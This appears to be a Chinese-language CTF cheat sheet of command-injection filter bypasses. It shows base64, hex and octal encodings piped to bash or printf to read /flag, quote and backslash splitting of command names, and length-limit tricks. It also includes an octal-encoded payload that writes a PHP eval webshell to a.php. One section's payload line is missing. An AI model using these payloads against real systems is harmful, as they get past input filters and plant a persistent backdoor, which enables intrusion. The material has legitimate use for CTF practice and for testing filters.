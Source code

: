 ##### base64编码

```
#注意,需要使用管道符,因为base64命令只接受标准的输入和输出
echo "Y2F0IC9mbGFn"|base64-d|bash
cat /flag
```

##### Hex

```
#由于linux自动解析hex,所以可以使用hex绕过,\x20是空格,也可能被ban
 ==>cat /flag
```

##### oct

```
#{}或者()都可以$把这个输出当成变量,然后执行
$(printf "\154\163") 
==>ls

$(printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67") 
==>cat /flag

#可以通过这样来写webshell,内容为<?php @eval($_POST['a']);?>
${printf,"\74\77\160\150\160\40\100\145\166\141\154\50\44\137\120\117\123\124\133\47\143\47\135\51\73\77\76"} >> a.php

#利用反引号`
`printf "\154\163"`
-->>ls

#绕过/
printf "2f"    
/

或者可以从$PATH中取/   
echo $PATH|cut -c 1
```

##### 单引号和双引号绕过，反斜杠绕过

```
ca''t flag 
ca""t flag  
ca\t flag
都相当于
cat flag
```

##### 长度限制

```
linux下可以用 >a 创建文件名为a的空文件
ls -t>test则会将目录按时间排序后写进test文件中
sh命令可以从一个文件中读取命令来执行
https://xz.aliyun.com/t/2748
```
